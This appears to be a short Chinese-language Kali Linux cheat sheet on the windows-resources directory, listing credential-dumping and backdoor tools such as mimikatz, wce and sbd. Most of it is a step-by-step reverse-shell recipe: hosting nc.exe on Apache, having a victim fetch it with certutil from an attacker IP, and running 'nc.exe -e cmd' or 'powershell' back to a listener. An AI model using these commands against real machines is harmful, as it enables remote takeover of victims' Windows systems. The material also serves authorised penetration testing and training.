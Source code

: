 用于存放 windows 渗透工具

```shell
┌──(root㉿kali)-[~]
└─# windows-resources
```

```shell
/usr/share/windows-resources
├── binaries
├── dbd
├── hyperion
├── mimikatz
├── powershell-empire -> ../powershell-empire
├── powersploit
├── sbd
└── wce
```

```
binaries			用于渗透测试的 Windows 可执行文件
dbd					渗透测试的数据库工具
hyperion			生成和混淆 Metasploit 模块的工具
mimikatz			获取 Windows 系统密码哈希值的工具
powershell-empire	PowerShell 脚本
powersploit			PowerShell 脚本
sbd					在受控主机和攻击者之间建立加密的通信信道的 SBD（安装后门）工具
wce					获取 Windows 系统密码哈希值的工具
```

复制 `nc.exe` 到 `upload` 目录

```shell
┌──(root㉿kali)-[~]
└─# cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/upload/
```

开启 Web

```shell
┌──(root㉿kali-23)-[~]
└─# sudo systemctl start apache2.service && sudo systemctl status apache2.service
```

监听端口

```shell
┌──(root㉿kali-23)-[~]
└─# nc -lvnp [attack_port]
```

受害者下载 `nc.exe` 

```cmd
C:\Users\sec\Downloads>certutil -urlcache -split -f http://[attack_ip]/upload/nc.exe [nc_path]
```

CMD 反弹 Shell

```powershell
PS C:\Users\Administrator> C:\Users\sec\Downloads\nc.exe -e cmd [attack_ip] [attack_port]
```

PowerShell 反弹 Shell

```powershell
PS C:\Users\Administrator> C:\Users\sec\Downloads\nc.exe -e powershell [attack_ip] [attack_port]
```

---

参考链接

- [windows-resources](https://www.kali.org/tools/windows-binaries/#windows-resources)
